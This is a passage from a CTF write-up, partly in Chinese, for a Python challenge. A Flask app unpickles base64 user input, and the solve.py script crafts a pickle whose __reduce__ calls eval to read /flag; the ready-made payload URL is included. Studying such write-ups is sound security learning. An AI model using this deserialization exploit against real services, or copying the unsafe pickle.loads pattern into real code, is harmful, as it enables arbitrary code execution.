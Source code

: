 Response.default_mimetype = 'text/plain'

app = Flask(__name__)

@app.route("/")
def index():
    data = request.values.get('data')

    if data is not None:
        try:
            data = base64.b64decode(data)
            data = pickle.loads(data)

            if data and not data:
                return open('/flag').read()

            return str(data)
        except:
            return traceback.format_exc()

    return open(__file__).read()
{% endcodeblock %}

#### Solution

簡單瞭解這份code:
line 10 表示我們可以透過後綴`/?data=`接一些字串
line 14 表示字串必須為base64格式
line 15 pickle ... ? 原來是肚子餓的部分（X）

![ ](https://photos.smugmug.com/photos/i-krmbvGD/0/c89c0580/M/i-krmbvGD-M.png)

line 17 永遠不可能成立的條件


用Google搜尋 "pickle ctf" 可以找到不少資料。


簡單講`pickle`是python用來**序列化**及**反序列化**的library


{% codeblock solve.py lang:python %}
import pickle
import base64

class test(object):
    def __reduce__(self):
        return(eval, ("open('/flag').read()",))

print(base64.b64encode(pickle.dumps(test())))
{% endcodeblock %}


`/?data=Y19fYnVpbHRpbl9fCmV2YWwKcDAKKFMib3BlbignL2ZsYWcnKS5yZWFkKCkiCnAxCnRwMgpScDMKLg==`

### 🦉 Owl (Unsolved, 492 points, 27 solves)

### 🦏 Rhino (Unsolved, 494 points, 24 solves)



## Scoreboard
![](https://photos.smugmug.com/photos/i-CJP8xWG/0/6a9cd01e/5K/i-CJP8xWG-5K.png)